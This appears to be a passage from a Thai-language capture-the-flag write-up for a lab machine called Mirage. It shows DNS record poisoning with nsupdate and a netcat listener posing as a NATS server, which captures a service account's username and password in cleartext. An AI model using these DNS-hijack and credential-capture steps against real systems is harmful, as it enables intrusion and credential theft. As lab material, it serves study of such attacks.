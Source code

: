 -DNS Poisoning: ใช้ nsupdate เปลี่ยน DNS record ให้ nats-svc.mirage.htb ชี้ไปยัง IP เรา

-"hostname is critical for internal service communication with the NATS messaging system hosted on the Mirage domain"


![alt text](image-2.png)

![alt text](image-3.png)

https://docs.nats.io/reference/reference-protocols/nats-protocol

```

┌──(kali㉿kali)-[~/Downloads]
└─$ nsupdate dns_update.txt                                                                 
                                                                                                                                                                                                             
┌──(kali㉿kali)-[~/Downloads]
└─$ echo 'INFO {"auth_required":true}' | nc -l -p 4222
CONNECT {"verbose":false,"pedantic":false,"user":"Dev_Account_A","pass":"hx5h7F5554fP@1337!","tls_required":false,"name":"NATS CLI Version 0.2.2","lang":"go","version":"1.41.1","protocol":1,"echo":true,"headers":false,"no_responders":false}
PING

                                                                                                                                                                                                          
┌──(kali㉿kali)-[~/Downloads]
└─$ cat dns_update.txt
server 10.10.11.78
update add nats-svc.mirage.htb 3600 A 10.10.14.8
send



```
